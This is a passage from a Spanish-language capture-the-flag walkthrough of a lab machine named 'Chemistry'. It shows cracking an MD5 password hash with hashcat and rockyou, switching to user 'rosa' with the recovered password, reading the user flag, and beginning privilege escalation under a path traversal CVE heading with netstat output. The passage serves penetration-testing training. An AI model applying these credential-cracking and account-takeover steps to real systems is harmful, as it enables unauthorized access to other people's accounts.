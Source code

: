 ### Cracking hashes

Procederemos a crackear los hashes obtenidos, y verificamos que logramos crackear el hash del usuario `rosa` y obtenemos sus credenciales en texto plano.

```bash
❯ hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt
...[snip]...
63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados
...[snip]...
```

Desde la consola que ya disponemos acceso, procederemos a migrar al usuario `rosa` accediendo con las credenciales obtenidas, verificamos que ganamos del acceso correctamente.

```bash
adminapp@chemistry:~/instance$ su rosa
Password: 

rosa@chemistry:/home/app/instance$ whoami
rosa
```

También verificamos que hemos ganado el acceso a la flag de **user.txt**

```bash
rosa@chemistry:~$ pwd
/home/rosa

rosa@chemistry:~$ cat user.txt 
a65886ac7ef2********************
```

## Privilege Escalation

### Exploitaition Path Traversal (CVE-2024-23334)

Reviasndo los puertos que se encuentran abiertos en la máquina, verificamos que hay un proceso llamado `localhost:http-alt`.

{% hint style="info" %}
Puerto 8080 (TCP): alternativa HTTP (http\_alt) comúnmente utilizada para servidores proxy web y de almacenamiento en caché, o para ejecutar un servidor web como un usuario no root.
{% endhint %}

```bash
rosa@chemistry:~$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN     
tcp        0      0 localhost:http-alt      0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN     
udp        0      0 localhost:domain        0.0.0.0:*                          
udp        0      0 0.0.0.0:bootpc          0.0.0.0:*                      
```

